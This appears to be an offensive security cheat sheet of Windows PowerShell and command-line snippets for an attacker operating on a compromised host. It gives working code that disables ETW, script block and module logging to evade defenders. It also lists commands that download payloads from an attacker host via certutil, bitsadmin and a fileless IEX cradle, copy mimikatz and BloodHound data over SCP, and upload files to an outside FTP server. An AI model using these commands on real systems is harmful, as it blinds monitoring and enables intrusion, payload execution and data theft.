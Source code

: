 #### Evading logging ####
# Disable Event Tracing Windows provider ( create a .ps1 and Invoke-Obfuscation)
`$logProvider = [Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider')`
`$etwProvider = $logProvider.GetField('etwProvider','NonPublic,Static').GetValue($null)`
`[System.Diagnostics.Eventing.EventProvider].GetField('m_enabled','NonPublic,Instance').SetValue($etwProvider,0);`
# GPO takeover (create a .ps1 and Invoke-Obfuscation)
**Disable only what hurts us : 4103-Logs command invocation(module logging), 4104-Logs script block execution**
`$GroupPolicySettingsField = [ref].Assembly.GetType('System.Management.Automation.Utils').GetField('cachedGroupPolicySettings', 'NonPublic,Static')`
`$GroupPolicySettings = $GroupPolicySettingsField.GetValue($null)`
`$GroupPolicySettings['ScriptBlockLogging']['EnableScriptBlockLogging'] = 0`
`$GroupPolicySettings['ScriptBlockLogging']['EnableScriptBlockInvocationLogging'] = 0`
# Abusing Log Pipeline
**Disable module loggin (4103-Logs command invocation) for a particular session**
`$module = Get-Module Microsoft.PowerShell.Utility # Get target module
$module.LogPipelineExecutionDetails = $false # Set module execution details to false
$snap = Get-PSSnapin Microsoft.PowerShell.Core # Get target ps-snapin
$snap.LogPipelineExecutionDetails = $false # Set ps-snapin execution details to false`


# Same machine Port enumeration
`
for($i=130; $i -le 140; $i++){
    Test-NetConnection localhost -Port $i
}
`
`Start-Process
Get-Process -name notepad
Copy-Item
Move-Item
`
# Download files
`Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"` | Download - Invoke-WebRequest using a Chrome User Agent
`(New-Object System.NetWebClient).Downloadfile('http://') | IEX`  *Fileless due to Invoke Expression*
`Invoke-WebRequest "http:///" -OutFile "kati.ps1" `
`certutil -URLcache -split -f http://Attacker_IP/payload.exe C:\Windows\Temp\payload.exe`
`bitsadmin.exe /transfer /Download /priority Foreground http://Attacker_IP/payload.exe c:\Users\thm\Desktop\payload.exe` 
`findstr /V dummystring \\MachineName\ShareFolder\test.exe > c:\Windows\Temp\test.exe` | Download from smb shared folder
`scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe` | Download a file using SCP
# Upload Files
`scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip` | Upload a file using SCP
`(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')`
